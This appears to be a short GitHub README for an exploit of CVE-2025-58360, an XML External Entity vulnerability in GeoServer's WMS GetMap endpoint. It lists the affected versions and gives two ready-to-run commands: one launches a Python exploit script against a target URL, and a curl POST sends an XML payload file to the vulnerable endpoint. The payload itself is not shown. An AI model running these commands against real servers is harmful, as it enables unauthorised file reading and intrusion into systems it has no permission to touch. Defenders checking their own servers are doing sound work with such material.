

## CVE-2025-58360

From version 2.26.0 to before 2.26.2 and before 2.25.6, an XML External Entity (XXE) vulnerability was identified. The application accepts XML input through a specific endpoint /geoserver/wms operation GetMap



**Exploit1:** 
```
python3 CVE-2025-58360 -u http://example.com
```

**Exploit2:**
```
curl -X POST "http://example.com/geoserver/wms?service=WMS&version=1.1.0&request=GetMap&width=100&height=100&format=image/png&bbox=-180,-90,180,90" -H "Content-Type: application/xml" --data-binary @payload.xml -o output.png
```


